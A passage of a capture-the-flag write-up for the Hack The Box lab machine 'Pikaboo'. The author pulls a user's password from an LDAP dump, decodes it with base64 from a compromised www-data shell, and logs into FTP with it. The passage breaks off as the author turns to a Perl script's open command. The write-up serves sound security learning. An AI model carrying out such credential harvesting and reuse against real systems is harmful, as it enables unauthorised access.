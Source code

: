 
The output is quite long but this section is what I wanted:

```text
# pwnmeow, users, ftp.pikaboo.htb
dn: uid=pwnmeow,ou=users,dc=ftp,dc=pikaboo,dc=htb
objectClass: inetOrgPerson
objectClass: posixAccount
objectClass: shadowAccount
uid: pwnmeow
cn: Pwn
sn: Meow
loginShell: /bin/bash
uidNumber: 10000
gidNumber: 10000
homeDirectory: /home/pwnmeow
userPassword:: <HIDDEN>
```

That password is clearly base64 encoded as it has the tell tale double == on the end:

```text
www-data@pikaboo:/$ echo "<HIDDEN>" | base64 -d
echo "<HIDDEN>" | base64 -d
<HIDDEN>
```

Decoding gives us a plaintext password. Let's try to ftp in with these credentials:

```text
┌──(root💀kali)-[~/htb/pikaboo]
└─# ftp pikaboo.htb
Connected to pikaboo.htb.
220 (vsFTPd 3.0.3)
Name (pikaboo.htb:kali): pwnmeow
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> pwd
257 "/" is the current directory
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwx-wx---    2 ftp      ftp          4096 Nov 13 08:47 abilities
drwx-wx---    2 ftp      ftp          4096 May 20 07:01 ability_changelog
drwx-wx---    2 ftp      ftp          4096 May 20 07:01 ability_changelog_prose
drwx-wx---    2 ftp      ftp          4096 May 20 07:01 ability_flavor_text
drwx-wx---    2 ftp      ftp          4096 May 20 07:01 ability_names
```

Unsurprisingly it works and we're in. There's nothing much to look at which had me stumped for quite some time. Eventually I looked back at that Perl script we found, and some searching for vulnerabilities around the open command it uses gave me a whole host of information:
